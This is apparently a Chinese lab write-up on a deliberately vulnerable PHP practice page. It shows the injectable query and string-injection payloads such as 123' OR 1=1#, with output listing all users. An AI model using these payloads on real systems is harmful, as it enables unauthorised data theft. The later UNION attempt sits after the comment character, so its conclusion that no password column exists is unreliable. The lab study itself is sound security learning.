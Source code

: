 ```

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

在做查询操作时，未对$id做任何限制，直接传入了sql语句，造成字符型注入

原SELECT语句
`SELECT first_name, last_name FROM users WHERE user_id = '$id'; `
中的$id可以任意输入。
当输入$id=123' OR 1=1#时，SELECT语句变成了
`SELECT first_name, last_name FROM users WHERE user_id = '123' OR 1=1#'; `
此时最后一个引号被#注释，同时1=1永远返回TRUE，这就导致所有用户的姓名泄露。
```
ID: 123' OR 1=1#
First name: admin
Surname: admin
ID: 123' OR 1=1#
First name: Gordon
Surname: Brown
ID: 123' OR 1=1#
First name: Hack
Surname: Me
ID: 123' OR 1=1#
First name: Pablo
Surname: Picasso
ID: 123' OR 1=1#
First name: Bob
Surname: Smith
```
那如果想要得到密码该怎么做，UNION 操作符用于合并两个或多个 SELECT 语句的结果集，我们可以这样构造id
`$id=123' or 1=1# union SELECT first_name,password FROM`
但貌似表里没有password
```
users
ID: 123' or 1=1# union SELECT first_name,password FROM users
First name: admin
Surname: admin
ID: 123' or 1=1# union SELECT first_name,password FROM users
First name: Gordon
Surname: Brown
ID: 123' or 1=1# union SELECT first_name,password FROM users
First name: Hack
Surname: Me
ID: 123' or 1=1# union SELECT first_name,password FROM users
First name: Pablo
Surname: Picasso
ID: 123' or 1=1# union SELECT first_name,password FROM users
First name: Bob
Surname: Smith
```
